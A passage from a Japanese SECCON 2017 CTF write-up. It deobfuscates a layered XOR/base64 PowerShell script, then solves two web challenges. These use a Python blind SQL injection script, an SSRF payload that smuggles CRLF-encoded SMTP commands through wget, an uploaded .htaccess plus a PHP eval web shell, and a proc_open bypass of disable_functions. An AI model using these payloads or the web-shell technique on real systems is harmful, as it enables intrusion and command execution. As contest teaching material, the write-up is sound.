EVMVUUwRFxdVQUNCE1MXU2JOE0gWV0oxSk1KTEIoExdBSDBOE0MVO0NKTkAoERVDSTFKThNNFUwR
FBVINUFJTkAqExtBSjFKTBEoF08RVRdKO0NKTldKMUwRQBc1QUo7SlNgTBNRFVdJSEZCSkJAKBEV
QUgzSE8RQxdMHTMVSDVDSExCKxEVQ0o9SkwRQxVOE0IWSDVBSkJAKBEVQUgzThBXFTdDRExAKhMV
Q0oxTxEzFzVNSkxVSjNOE0EWN0NITE4oExdBSjFMEUUXNUNTbEwTURVVSExCKxEVQ0o9SkwRQxVO
EzEWSDVBSkJAKBEVQUgzThAxFTdDREwTURVKMUpOECoVThNPFUo3U0pOE0gWThNEFUITQBdDTBFK
F08RQBdMHRQVQUwTSBVOEEIVThNPFUNOE0oXTBFDF0wRQRtDTBFKFU4TQxZOExYVTUwTSBVMEUEX
TxFOF0NCE0oXTBNCFU4QQRVBTB1KFU4TThdMESsXQ04TRBVMEUMVThNXFk4TQRVNTBNIFUwRFBdP
EUEXQ0ITShdME0EVThBXFU4TWxVDThNKF0wRMBdMETUbQ0wRShVOE0MWThMqFU1ME0gVTBFDF08R
QxdMHUMVQUwTSBVOEEEVThNNFUwRNRVBTBFJF0wRQxtME0EVTBFAF0BOE0gVQhNGF0wTKhVBTxFK
F0wdMxVOEzUXQ04QSBVOE0AVTBFVFUFMEUkXTBFDG0wTQRVMETMXQE4TSBVCE0MXTBNBFU4QQRVB
TB1KFU4TQxdMEVYXTBEUG0NMEUoVThNBFk4TQRVCEygXQ0wRShdPEUMXTB1DFU4TQBdDThBIFU4T
SBVMESgVQUwRSRdMEUYbTBMWFUNOE0gWThNCFUITFBdDTBFKF08RQxdMHUMVThNVF0NOEEgVThNN
FUwRQxVOE0IWQUwRShtME0EVTBFVF08RQxdDQhNKF0wTQRVOEEEVThM9FUNOE0oXTBFFF0wRKBtD
TBFKFU4TQRZOE0EVQhNAF0NMEUoXTxFDF0wdVRVOEzMXQ04QSBVOE00VTBFVFU4TQRZBTBFKG0wT
RBVMESgXQE4TSBVCE0MXTBNBFU4QKhVBTB1KFU4TFBdMEUIXQ04TRBVMEUMVThNBFk4TNxVNTBNI
FUwRQxdPEUMXTB01FUFME0gVThBBFU4TTRVMERQVQUwRSRdMEUMbTBNBFUwRQxdAThNIFUITQxdM
E0EVThAxFUFMHUoVThNDF0wRVhdMEVUbQ0wRShVOE0QWThMWFU1ME0gVTBFDF08RRhdDQhNKF0wT
QRVOEFcVQUwdShVOE0EXTBFFF0NOE0QVTBFDFU4TVxZOEyoVTUwTSBVMETMXTxFVF0NCE0oXTBNE
FU4QQhVBTB1KFU4TQBdMERcXQ04TRBVMEUAVThNDFkFMEUobTBNCFUwRQRdAThNIFUITQRdMExYV
QU8RShdMHUEVThNOF0NOEEgVThNIFUwRKBVBTBFJF0wRMxtMEzcVQ04TSBZOE0EVQhNVF0wTQRVB
TxFKF0wdQxVOE0MXTBFFF0NOE0QVTBFGFU4TKhZBTBFKG0wTRBVMERQXQE4TSBVCE04XTBNXFUFP
EUoXTB0zFU4TThdDThBIFU4TTRVMEUMVThMWFkFMEUobTBNCFUwRFBdAThNIFUITQxdME0EVThAx
FUFMHUoVThNGF0wRQxdDThNEFUwRQRVOEyoWQUwRShtMEzcVTBFDF0BOE0gVQhMzF0wTFhVBTxFK
F0wdMxVOExQXQ04QSBVOE0gVTBEUFUFMEUkXTBEzG0wTQRVDThNIFk4TQRVCEygXTBNEFUFPEUoX
TB1DFU4TRhdDThBIFU4TTRVMEVUVQUwRSRdMERQbQ0wRShVOE0wWThNDFU1ME0gVTBFDF08RQxdM
HTMVQUwTSBVOEEEVThNbFUwRNRVBTBFJF0wRQxtME0EVTBFAF0BOE0gVQhNDF0wTVxVOEEEVQUwd
ShVOEzMXTBE2F0NOE0QVTBFBFU4TKhZBTBFKG0wTQRVMEUMXTxFDF0NCE0oXTBNBFU4QQRVOEzsV
Q04TShdMEUAXTBFDG0wTQhVDThNIFk4TRBVCEygXQ0wRShdPEUYXTB0UFUFME0gVThBDFU4TTRVD
ThNKF0wRQBdMEUMbTBNBFUNOE0gWThNBFUITQxdME0EVQU8RShdMHUMVThNVF0wRVhdDThNEFUwR
RhVOEyoWQUwRShtME0MVTBEzF0BOE0gVQhNDF0wTQRVOEEEVQUwdShVOExQXTBFNF0NOE0QVTBFG
FU4TRBZBTBFKG0wTRBVMERQXQE4TSBVCEzUXTBMWFUFPEUoXTB1DFU4TRhdDThBIFU4TTRVMEVUV
QUwRSRdMERQbQ0wRShVOE0wWThNDFU1ME0gVTBFDF08RQxdMHTMVQUwTSBVOEEEVThNbFUwRNRVB
TBFJF0wRQxtME0EVTBFAF0BOE0gVQhNDF0wTVxVOEEEVQUwdShVOEzMXTBE2F0NOE0QVTBFBFU4T
KhZBTBFKG0wTQRVMEUMXTxFDF0NCE0oXTBNBFU4QQRVOEzsVQ04TShdMEUAXTBFDG0wTQhVDThNI
Fk4TRBVCEygXQ0wRShdPEUYXTB0zFUFME0gVThBMFU4TSBVDThNKF0wRQxdMERQbQ0wRShVOE0IW
ThNDFU1ME0gVTBFAF08RQRdDQhNKF0wTQxVOEBYVQUwdShVOE0EXTBFNF0NOE0QVTBFDFU4TKhZO
E0QVTUwTSBVMEUYXTxFAF0NCE0oXTBNCFU4QFhVBTB1KFU4TQBdMEUIXQ04TRBVMEUAVThNDFkFM
EUobTBNDFUwRFBdAThNIFUITQRdME0wVQU8RShdMHUMVThMoF0wRNhdDThNEFUwRRhVOEzEWQUwR
ShtME0EVTBFGF0BOE0gVQhNDF0wTVxVBTxFKF0wdQxVOEygXTBE2FxROE10VShZOTBFTF2E=
"@

$plain=@()
$byteString = [System.Convert]::FromBase64String($text)
$xordData = $(for ($i = 0; $i -lt $byteString.length; ) {
	for ($j = 0; $j -lt $f.length; $j++) {
		$plain+=$byteString[$i] -bxor $f[$j]
		$i++
		if ($i -ge $byteString.Length) {
			$j = $f.length
		}
	}
})
iex([System.Text.Encoding]::ASCII.GetString($plain))
```

管理者権限を持っているか確認している部分を削除して実行すると、以下のように鍵盤が表示されました。



SECCON のロゴや鍵盤の表示部分を削除すると以下のようになりました。

```powershell
$keytone=@{'a'=261.63}
$pk='a'
ForEach($k in ('w','s','e','d','f','t','g','y','h','u','j','k')){
	$keytone+=@{$k=$keytone[$pk]*[math]::pow(2,1/12)};$pk=$k	
}
Write-Host -b 00 -f 15 "Play the secret melody."

$stage1=@();$f="";
While($stage1.length -lt 14){
	$key=(Get-Host).ui.RawUI.ReadKey("NoEcho,IncludeKeyDown")
	$k=[String]$key.Character
	$f+=$k;
	If($keytone.Contains($k)){
		$stage1+=[math]::floor($keytone[$k])
		[console]::beep($keytone[$k],500)
	}
}

$secret=@(440,440,493,440,440,493,440,493,523,493,440,493,440,349)
If($secret.length -eq $stage1.length){
	For ($i=1; $i -le $secret.length; $i++) {
		If($secret[$i] -ne $stage1[$i]){
			Exit
		}
	}
	x "Correct. Move to the next stage."
}
```

以下のスクリプトを実行すると `hhjhhjhjkjhjhf` がパスワードであると分かりました。

```powershell
$keytone=@{261='a'}
$pv=261.63
ForEach ($k in ('w','s','e','d','f','t','g','y','h','u','j','k')) {
  $v=$pv*[Math]::Pow(2,1/12)
  $keytone+=@{[int] [Math]::Floor($v)=$k}
  $pv=$v
}

$result=""
$secret=@(440,440,493,440,440,493,440,493,523,493,440,493,440,349)

Foreach ($v in $secret){
  $result+=$keytone[$v]
}

Write-Output $result
```

このパスワードを利用してステージ 2 のスクリプトを展開してみましょう。

ステージ 1 の後、以下のように `$text` を Base64 デコードし、ステージ 1 のパスワードと xor して実行しています。

```powershell
$text=@"
YkwRUxVXQ05DQ1NOE1sVVU4TUxdTThBBFVdDTUwTURVTThMqFldDQUwdUxVRTBNEFVdAQUwRUxtT
TBEzFVdDQU8RUxdTbEwTNxVVQUNOEFEVUUwdQBVXQ0NOE1EWUUwRQRtVQ0FME1EVUU8RThdVTUNM
EVMVUUwRFxdVQUNCE1MXU2JOE0gWV0oxSk1KTEIoExdBSDBOE0MVO0NKTkAoERVDSTFKThNNFUwR
FBVINUFJTkAqExtBSjFKTBEoF08RVRdKO0NKTldKMUwRQBc1QUo7SlNgTBNRFVdJSEZCSkJAKBEV
QUgzSE8RQxdMHTMVSDVDSExCKxEVQ0o9SkwRQxVOE0IWSDVBSkJAKBEVQUgzThBXFTdDRExAKhMV
...
Fk4TRBVCEygXQ0wRShdPEUYXTB0zFUFME0gVThBMFU4TSBVDThNKF0wRQxdMERQbQ0wRShVOE0IW
ThNDFU1ME0gVTBFAF08RQRdDQhNKF0wTQxVOEBYVQUwdShVOE0EXTBFNF0NOE0QVTBFDFU4TKhZO
E0QVTUwTSBVMEUYXTxFAF0NCE0oXTBNCFU4QFhVBTB1KFU4TQBdMEUIXQ04TRBVMEUAVThNDFkFM
EUobTBNDFUwRFBdAThNIFUITQRdME0wVQU8RShdMHUMVThMoF0wRNhdDThNEFUwRRhVOEzEWQUwR
ShtME0EVTBFGF0BOE0gVQhNDF0wTVxVBTxFKF0wdQxVOEygXTBE2FxROE10VShZOTBFTF2E=
"@

$plain=@()
$byteString = [System.Convert]::FromBase64String($text)
$xordData = $(for ($i = 0; $i -lt $byteString.length; ) {
	for ($j = 0; $j -lt $f.length; $j++) {
		$plain+=$byteString[$i] -bxor $f[$j]
		$i++
		if ($i -ge $byteString.Length) {
			$j = $f.length
		}
	}
})
iex([System.Text.Encoding]::ASCII.GetString($plain))
```

Python などで適当に展開すると、以下のようなスクリプトが出てきました。

```powershell
${;}=+$();${=}=${;};${+}=++${;};${@}=++${;};${.}=++${;};${[}=++${;};
${]}=++${;};${(}=++${;};${)}=++${;};${&}=++${;};${|}=++${;};
${"}="["+"$(@{})"[${)}]+"$(@{})"["${+}${|}"]+"$(@{})"["${@}${=}"]+"$?"[${+}]+"]";
${;}="".("$(@{})"["${+}${[}"]+"$(@{})"["${+}${(}"]+"$(@{})"[${=}]+"$(@{})"[${[}]+"$?"[${+}]+"$(@{})"[${.}]);
${;}="$(@{})"["${+}${[}"]+"$(@{})"[${[}]+"${;}"["${@}${)}"];"${"}${.}${(}+${"}${(}${|}+${"}${(}${)}+${"}${(}${)}+${"}${)}${|}+${"}${)}${&}+${"}${(}${+}+${"}${&}${@}+${"}${+}${=}${+}+${"}${|}${)}+${"}${+}${=}${=}+${"}${[}${]}+${"}${)}${@}+${"}${+}${+}${+}+${"}${+}${+}${]}+${"}${+}${+}${(}+${"}${.}${@}+${"}${[}${]}+${"}${&}${=}+${"}${+}${+}${[}+${"}${+}${+}${+}+${"}${+}${=}${|}+${"}${+}${+}${@}+${"}${+}${+}${(}+${"}${.}${@}+${"}${.}${|}+${"}${(}${|}+${"}${+}${+}${=}+${"}${+}${+}${(}+${"}${+}${=}${+}+${"}${+}${+}${[}+${"}${.}${@}+${"}${+}${+}${(}+${"}${+}${=}${[}+${"}${+}${=}${+}+${"}${.}${@}+${"}${+}${+}${@}+${"}${|}${)}+${"}${+}${+}${]}+${"}${+}${+}${]}+${"}${+}${+}${|}+${"}${+}${+}${+}+${"}${+}${+}${[}+${"}${+}${=}${=}+${"}${.}${|}+${"}${+}${.}+${"}${+}${=}+${"}${)}${.}+${"}${+}${=}${@}+${"}${[}${=}+${"}${.}${(}+${"}${(}${|}+${"}${(}${)}+${"}${(}${)}+${"}${)}${|}+${"}${)}${&}+${"}${.}${@}+${"}${[}${]}+${"}${+}${=}${+}+${"}${+}${+}${.}+${"}${.}${@}+${"}${.}${|}+${"}${&}${=}+${"}${[}${&}+${"}${+}${+}${|}+${"}${(}${|}+${"}${+}${+}${[}+${"}${.}${(}+${"}${)}${@}+${"}${]}${+}+${"}${[}${|}+${"}${[}${|}+${"}${.}${|}+${"}${[}${+}+${"}${+}${@}${.}+${"}${+}${.}+${"}${+}${=}+${"}${|}+${"}${&}${)}+${"}${+}${+}${[}+${"}${+}${=}${]}+${"}${+}${+}${(}+${"}${+}${=}${+}+${"}${[}${]}+${"}${)}${@}+${"}${+}${+}${+}+${"}${+}${+}${]}+${"}${+}${+}${(}+${"}${.}${@}+${"}${.}${|}+${"}${)}${+}+${"}${+}${+}${+}+${"}${+}${+}${+}+${"}${+}${=}${=}+${"}${.}${@}+${"}${)}${[}+${"}${+}${+}${+}+${"}${|}${&}+${"}${.}${.}+${"}${.}${|}+${"}${]}${|}+${"}${+}${.}+${"}${+}${=}+${"}${|}+${"}${&}${)}+${"}${+}${+}${[}+${"}${+}${=}${]}+${"}${+}${+}${(}+${"}${+}${=}${+}+${"}${[}${]}+${"}${)}${@}+${"}${+}${+}${+}+${"}${+}${+}${]}+${"}${+}${+}${(}+${"}${.}${@}+${"}${.}${[}+${"}${&}${.}+${"}${(}${|}+${"}${(}${)}+${"}${(}${)}+${"}${)}${|}+${"}${)}${&}+${"}${+}${@}${.}+${"}${.}${(}+${"}${(}${|}+${"}${(}${)}+${"}${(}${)}+${"}${)}${|}+${"}${)}${&}+${"}${+}${@}${]}+${"}${.}${[}+${"}${+}${.}+${"}${+}${=}+${"}${+}${@}${]}|${;}"|&${;}
```

難読化されていますが、ほとんどが文字列の結合を行っているだけなので、最終行の `"(すごい長い文字列)"|&${;}` を `Write-Output "(すごい長い文字列)"` のように変更して実行するだけで展開することができました。

```
[CHar]36+[CHar]69+[CHar]67+[CHar]67+[CHar]79+[CHar]78+[CHar]61+[CHar]82+[CHar]101+[CHar]97+[CHar]100+[CHar]45+[CHar]72+[CHar]111+[CHar]115+[CHar]116+[CHar]32+[CHar]45+[CHar]80+[CHar]114+[CHar]111+[CHar]109+[CHar]112+[CHar]116+[CHar]32+[CHar]39+[CHar]69+[CHar]110+[CHar]116+[CHar]101+[CHar]114+[CHar]32+[CHar]116+[CHar]104+[CHar]101+[CHar]32+[CHar]112+[CHar]97+[CHar]115+[CHar]115+[CHar]119+[CHar]111+[CHar]114+[CHar]100+[CHar]39+[CHar]13+[CHar]10+[CHar]73+[CHar]102+[CHar]40+[CHar]36+[CHar]69+[CHar]67+[CHar]67+[CHar]79+[CHar]78+[CHar]32+[CHar]45+[CHar]101+[CHar]113+[CHar]32+[CHar]39+[CHar]80+[CHar]48+[CHar]119+[CHar]69+[CHar]114+[CHar]36+[CHar]72+[CHar]51+[CHar]49+[CHar]49+[CHar]39+[CHar]41+[CHar]123+[CHar]13+[CHar]10+[CHar]9+[CHar]87+[CHar]114+[CHar]105+[CHar]116+[CHar]101+[CHar]45+[CHar]72+[CHar]111+[CHar]115+[CHar]116+[CHar]32+[CHar]39+[CHar]71+[CHar]111+[CHar]111+[CHar]100+[CHar]32+[CHar]74+[CHar]111+[CHar]98+[CHar]33+[CHar]39+[CHar]59+[CHar]13+[CHar]10+[CHar]9+[CHar]87+[CHar]114+[CHar]105+[CHar]116+[CHar]101+[CHar]45+[CHar]72+[CHar]111+[CHar]115+[CHar]116+[CHar]32+[CHar]34+[CHar]83+[CHar]69+[CHar]67+[CHar]67+[CHar]79+[CHar]78+[CHar]123+[CHar]36+[CHar]69+[CHar]67+[CHar]67+[CHar]79+[CHar]78+[CHar]125+[CHar]34+[CHar]13+[CHar]10+[CHar]125|iex
```

これは `|iex` を削除するだけで元のスクリプトを展開することができます。

```powershell
$ECCON=Read-Host -Prompt 'Enter the password'
If($ECCON -eq 'P0wEr$H311'){
        Write-Host 'Good Job!';
        Write-Host "SECCON{$ECCON}"
}
```

得られたパスワードを入力してみましょう。

```
PS > .\stage2.ps1
Enter the password: P0wEr$H311
Good Job!
SECCON{P0wEr$H311}
```

フラグが得られました。

```
SECCON{P0wEr$H311}
```

## [Web 400] SqlSRF

> SqlSRF
> The root reply the flag to your mail address if you send a mail that subject is "give me flag" to root.

与えられた URL にアクセスすると、以下のようにファイルの一覧が表示されました。

```
[IMG]	bg-header.jpg	2017-12-09 13:30	252K	 
[   ]	index.cgi	2017-12-09 13:31	2.1K	 
[   ]	index.cgi_backup2017..>	2017-12-09 13:31	2.1K	 
[   ]	menu.cgi	2017-12-09 13:32	2.1K	 
```

`index.cgi_backup20171129` にアクセスすると `index.cgi` のソースコードが得られました。これは以下のような内容で、どうやら Perl で書かれているようです。

```perl
#!/usr/bin/perl

use CGI;
my $q = new CGI;

use CGI::Session;
my $s = CGI::Session->new(undef, $q->cookie('CGISESSID')||undef, {Directory=>'/tmp'});
$s->expire('+1M'); require './.htcrypt.pl';

my $user = $q->param('user');
print $q->header(-charset=>'UTF-8', -cookie=>
  [
    $q->cookie(-name=>'CGISESSID', -value=>$s->id),
    ($q->param('save') eq '1' ? $q->cookie(-name=>'remember', -value=>&encrypt($user), -expires=>'+1M') : undef)
  ]),
  $q->start_html(-lang=>'ja', -encoding=>'UTF-8', -title=>'SECCON 2017', -bgcolor=>'black');
  $user = &decrypt($q->cookie('remember')) if($user eq '' && $q->cookie('remember') ne '');

my $errmsg = '';
if($q->param('login') ne '') {
  use DBI;
  my $dbh = DBI->connect('dbi:SQLite:dbname=./.htDB');
  my $sth = $dbh->prepare("SELECT password FROM users WHERE username='".$q->param('user')."';");
  $errmsg = '<h2 style="color:red">Login Error!</h2>';
  eval {
    $sth->execute();
    if(my @row = $sth->fetchrow_array) {
      if($row[0] ne '' && $q->param('pass') ne '' && $row[0] eq &encrypt($q->param('pass'))) {
        $s->param('autheduser', $q->param('user'));
        print "<scr"."ipt>document.location='./menu.cgi';</script>";
        $errmsg = '';
      }
    }
  };
  if($@) {
    $errmsg = '<h2 style="color:red">Database Error!</h2>';
  }
  $dbh->disconnect();
}
$user = $q->escapeHTML($user);

print <<"EOM";
<!-- The Kusomon by KeigoYAMAZAKI, 2017 -->
<div style="background:#000 url(./bg-header.jpg) 50% 50% no-repeat;position:fixed;width:100%;height:300px;top:0;">
</div>
<div style="position:relative;top:300px;color:white;text-align:center;">
<h1>Login</h1>
<form action="?" method="post">$errmsg
<table border="0" align="center" style="background:white;color:black;padding:50px;border:1px solid darkgray;">
<tr><td>Username:</td><td><input type="text" name="user" value="$user"></td></tr>
<tr><td>Password:</td><td><input type="password" name="pass" value=""></td></tr>
<tr><td colspan="2"><input type="checkbox" name="save" value="1">Remember Me</td></tr>
<tr><td colspan="2" align="right"><input type="submit" name="login" value="Login"></td></tr>
</table>
</form>
</div>
</body>
</html>
EOM

1;
```

`my $sth = $dbh->prepare("SELECT password FROM users WHERE username='".$q->param('user')."';");` とあり、ここから Blind SQLi で好きなユーザのパスワードを抜き出すことができそうです。が、この後ろに以下のような処理があり、ログインの成否でクエリの成否を判断するために、平文とこれを `encrypt` で暗号化した暗号文のペアを得る必要があります。

```perl
      if($row[0] ne '' && $q->param('pass') ne '' && $row[0] eq &encrypt($q->param('pass'))) {
        $s->param('autheduser', $q->param('user'));
        print "<scr"."ipt>document.location='./menu.cgi';</script>";
        $errmsg = '';
      }
```

どこかで入力した文字列をそのまま `encrypt` で暗号化している処理がないか調べると、以下のような箇所が見つかりました。

```perl
print $q->header(-charset=>'UTF-8', -cookie=>
  [
    $q->cookie(-name=>'CGISESSID', -value=>$s->id),
    ($q->param('save') eq '1' ? $q->cookie(-name=>'remember', -value=>&encrypt($user), -expires=>'+1M') : undef)
  ]),
  $q->start_html(-lang=>'ja', -encoding=>'UTF-8', -title=>'SECCON 2017', -bgcolor=>'black');
  $user = &decrypt($q->cookie('remember')) if($user eq '' && $q->cookie('remember') ne '');
```

`Remember Me` をオンにしておくと、ログイン時に `encrypt` で暗号化したユーザ名を Cookie の `remember` に保存してくれるようです。また、もし Cookie の `remember` に値が入っていれば `decrypt` で復号してログインフォームに出力するという処理を行っており、このことから `encrypt` と `decrypt` が対になっていることが分かります。

`Remember Me` をオンにして `hoge` というユーザ名でログインしようとすると、`Login Error!` と表示され、ログインには失敗したものの Cookie の `remember` には `c05522c90f8c1dc902abb4b6f442f9ec` という値がセットされていました。これで `encrypt("hoge")` は `"c05522c90f8c1dc902abb4b6f442f9ec"` になると分かりました。

では、`admin` のパスワードを抜き出してみましょう。

```python
import requests

def query(s):
  r = requests.post('http://sqlsrf.pwn.seccon.jp/sqlsrf/index.cgi', data={
    'user': s,
    'pass': 'hoge',
    'login': 'Login'
  })
  return r.content

def check(s):
  return 'document.location' in s


if __name__ == '__main__':
  res = ''
  i = 1
  while True:
    c = 0
    for b in range(7):
      q = "(select group_concat(username || ':' || password) from users)"
      r = check(query("' union select 'c05522c90f8c1dc902abb4b6f442f9ec' where (select unicode(substr({0}, {1}, 1)) & {2});--".format(q, i, 1 << b)))
      if r: c |= 1 << b
    res += chr(c)
    i += 1
    print res
```

```
$ python2 solve.py
a
ad
adm
admi
admin
...
admin:d2f37e101c0e76bcc90b5634a5510f64
```

`admin` の暗号化されたパスワードは `d2f37e101c0e76bcc90b5634a5510f64` と分かりました。

`d2f37e101c0e76bcc90b5634a5510f64` を Cookie の `remember` にセットしてみると、ログインフォームのユーザ名に `Yes!Kusomon!!` と入力されており、`admin` のパスワードを得ることができました。

早速 `admin` ログインしてみると、`menu.cgi` に遷移して以下のようなページが表示されました。

```html
<!DOCTYPE html
	PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
	 "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" lang="ja" xml:lang="ja">
<head>
<title>SECCON 2017</title>
<meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
</head>
<body bgcolor="black">
<!-- The Kusomon by KeigoYAMAZAKI, 2017 -->
<div style="background:#000 url(./bg-header.jpg) 50% 50% no-repeat;position:fixed;width:100%;height:300px;top:0;">
</div>
<div style="position:relative;top:300px;color:white;background-color:black">
<center>
<h1>Menu</h1>
<hr>User: admin<hr>
<table border="1" cellpadding="20px">
<tr><td><form action="?" method="post">
1. <input type="submit" name="cmd" value="netstat -tnl"></form></td></tr>
<tr><td><form action="?" method="post">
2. <input type="submit" name="cmd" value="wget --debug -O /dev/stdout 'http://"><input type="text" name="args" value="2017.seccon.jp/" size="80"><input type="button" value="'"></form><div style="color:red">&nbsp;* No.2 is only for "admin" user.</div></td></tr>
</table>
<hr>
</form>
</center>
</div>
</body>
</html>
```

`netstat -tnl` というボタンを押してみると、以下のように OS コマンドの実行結果が表示されました。

```
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:25            0.0.0.0:*               LISTEN     
tcp6       0      0 :::22                   :::*                    LISTEN     
tcp6       0      0 ::1:25                  :::*                    LISTEN   
```

SMTP (25 番ポート) にはローカルからのみアクセスできるようです。

好きな OS コマンドが実行できないか `<input type="submit" name="cmd" value="netstat -tnl">` を `<input type="submit" name="cmd" value="ls">` に変えてボタンを押してみたものの、何も表示されませんでした。どうやら指定された OS コマンド以外は実行できないようです。

その次の `wget --debug -O /dev/stdout 'http://` というボタンの右側にはアドレスを入力できるテキストボックスが表示されています。これに `example.com` を入力してボタンを押すと `http://example.com` の内容が表示されました。どうやらこのアドレスには好きなアドレスを入力することができるようです。

ここでどうすればいいか悩んでいましたが、[@KageShiron](https://twitter.com/kageshiron) さんによって、`https://127.0.0.1 %0D%0AHELO localhost%0D%0AMAIL FROM%3a<email%40example.com>%0D%0aRCPT TO%3aroot%0D%0ADATA%0d%0aSubject %3a give me flag%0d%0a.%0d%0a:25` にリダイレクトさせるページ (HTTP) を用意してアクセスさせることで、メールを送信させることができると分かりました。

これによって暗号化されたフラグが `37208e07f86ba78a7416ecd535fd874a3b98b964005a5503bcaa41a1c9b42a19` と分かり、`admin` のパスワードを手に入れる際に使った方法で復号ができました。

```
SECCON{SSRFisMyFriend!}
```

## [Web 500] automatic_door

> automatic_door
> Get shell, and execute /flag_x

与えられた URL にアクセスすると、以下のようなソースコードが表示されました。

```php
<?php
$fail = str_repeat('fail', 100);
$d = 'sandbox/FAIL_' . sha1($_SERVER['REMOTE_ADDR'] . '95aca804b832f4c329d8c0e7c789b02b') . '/';
@mkdir($d);

function read_ok($f)
{
    return strstr($f, 'FAIL_') === FALSE &&
        strstr($f, '/proc/') === FALSE &&
        strstr($f, '/dev/') === FALSE;
}

function write_ok($f)
{
    return strstr($f, '..') === FALSE && read_ok($f);
}

function GetDirectorySize($path)
{
    $bytestotal = 0;
    $path = realpath($path);
    if ($path !== false && $path != '' && file_exists($path)) {
        foreach (new RecursiveIteratorIterator(new RecursiveDirectoryIterator($path, FilesystemIterator::SKIP_DOTS)) as $object) {
            $bytestotal += $object->getSize();
        }
    }
    return $bytestotal;
}

if (isset($_GET['action'])) {
    if ($_GET['action'] == 'pwd') {
        echo $d;

        exit;
    }
    else if ($_GET['action'] == 'phpinfo') {
        phpinfo();

        exit;
    }
    else if ($_GET['action'] == 'read') {
        $f = $_GET['filename'];
        if (read_ok($f))
            echo file_get_contents($d . $f);
        else
            echo $fail;

        exit;
    } else if ($_GET['action'] == 'write') {
        $f = $_GET['filename'];
        if (write_ok($f) && strstr($f, 'ph') === FALSE && $_FILES['file']['size'] < 10000) {
            print_r($_FILES['file']);
            print_r(move_uploaded_file($_FILES['file']['tmp_name'], $d . $f));
        }
        else
            echo $fail;

        if (GetDirectorySize($d) > 10000) {
            rmdir($d);
        }

        exit;
    } else if ($_GET['action'] == 'delete') {
        $f = $_GET['filename'];
        if (write_ok($f))
            print_r(unlink($d . $f));
        else
            echo $fail;

        exit;
    }
}

highlight_file(__FILE__);
```

`?action=pwd` にアクセスするとサンドボックスのパス、`?action=phpinfo` にアクセスすると `phpinfo()` の実行結果が得られるようです。

ファイルのアップロードなどもでき、`?action=read` から指定したファイルの読み込み、`?action=write` から指定したファイル名 (`ph` が入っている場合は失敗) でファイルのアップロード、`?action=delete` から指定したファイルの削除ができるようです。

HTTP レスポンスヘッダを確認してみると `Server:Apache/2.4.18 (Ubuntu)` というヘッダが付与されていました。どうやら Apache を使っているようです。

`ph` を含まない拡張子でも PHP コードが実行できるようにならないか、試しに `.htaccess` というファイル名でアップロードしてみましょう。

以下のような JavaScript コードを実行すると `.htaccess` というファイル名でファイルアップロードが出来るフォームが表示されます。

```javascript
document.body.innerHTML += `<form action="index.php?action=write&filename=.htaccess" method="POST" enctype="multipart/form-data">
  <input type="file" name="file">
  <input type="submit">
</form>`
```

これを使って `AddType application/x-httpd-php .php .html` という内容のファイルをアップロードします。これで `.html` という拡張子でも PHP コードが実行できるようになったはずです。

続いて、上記の JavaScript コードの `.htaccess` を `a.html` に変えて、以下のような内容のファイルをアップロードします。

```php
<?php eval(base64_decode($_GET['q'])); ?>
```

これで `(?action=pwd で得られたパス)/a.html?q=(Base64 エンコードした PHP コード)` にアクセスすると好きな PHP コードを実行できるようになるはずです。

試しに `a.html?q=ZWNobyAiaG9nZSI7` (`echo "hoge";`) にアクセスしてみると、`hoge` と表示されました。

問題文では `/flag` を実行するとフラグが得られるとあるので `passthru("/flag");` を実行しようとしたものの、何も表示されません。呼び出せる関数に制限がないか調べるために `?action=phpinfo` にアクセスすると、以下のような項目がありました。

```
disable_functions: pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,exec,passthru,popen,shell_exec,system
```

`shell_exec` や `system` など、OS コマンドを実行する関数がほとんど無効化されています。漏れがないか [PHP: プログラム実行関数 - Manual](http://php.net/manual/ja/ref.exec.php) にある関数をひとつひとつ調べていくと、`proc_open` だけが無効化されていないことが分かりました。

以下のような PHP コードを Base64 エンコードし、アップロードしたファイルに投げるとフラグが得られました。

```php
$descriptorspec = array();
$descriptorspec[0] = array('pipe', 'r');
$descriptorspec[1] = array('pipe', 'w');
$descriptorspec[2] = array('pipe', 'w');
$proc = proc_open('/flag_x', $descriptorspec, $pipes);
echo fread($pipes[1], 100);
```

```
SECCON{f6c085facd0897b47f5f1d7687030ae7}
```